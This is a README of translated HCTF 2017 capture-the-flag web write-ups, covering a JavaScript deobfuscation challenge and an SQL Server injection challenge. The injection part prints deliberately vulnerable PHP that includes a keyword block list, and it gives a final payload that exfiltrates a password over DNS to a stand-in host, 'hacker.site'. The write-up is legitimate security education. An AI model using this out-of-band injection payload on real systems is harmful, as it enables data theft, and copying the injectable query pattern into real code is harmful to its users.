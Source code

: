 # HCTF2017-writeups-eng
Translations of HCTF writeups to english.

## WEB:


### babycrack

Reference: https://github.com/LoRexxar/HCTF2017-babycrack

"The challenge I think is quite clear, you could even say that this kind of js
is basically the most common.

Obfuscation and Anti-Debugging

Here's a simple strategy for solving:

Patch to remove the anti-debugging code or debug using node -> beautify code ->
remove obfuscation -> analyze the logic of the code. The first part was flawed
(leading to multiple solutions) which was dealt with thru the hint, and when the
rest of the parts are complete you can use the sha256 hash to brute force. The
second part has three subsections, each with its own restrictions. The third
part and the fourth parts are very simple. I set the fifth part to have more
complicated logic, with the length and `ee` in the center, this part has only
one solution!

### boring-website

First we look at the site's index and see `www.zip`, when we download and open
it we see the source code:

```
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>
```

We find that SQL Server is using `linkserver` to connect to MySQL. Looking at
how `linkserver` is used, combining comments we can use `select * from
openquery(mysql,'select xxx')` to get data from the MySQL database, but without
getting a response. The `sleep` function is also banned, and then you'll see the
oob warning, after looking up mysql out-of-band, I discovered that the
`load_file` function can use dns to exfiltrate data. What follows is a pretty
simple MySQL injection procedure. The final payload: `/?id=1 union select * from
openquery(mysql,'select load_file(concat("\\\\",(select password from
secret),".hacker.site\\a.txt"))')`.

You could put up a dnslog server or also use ceye.

https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/
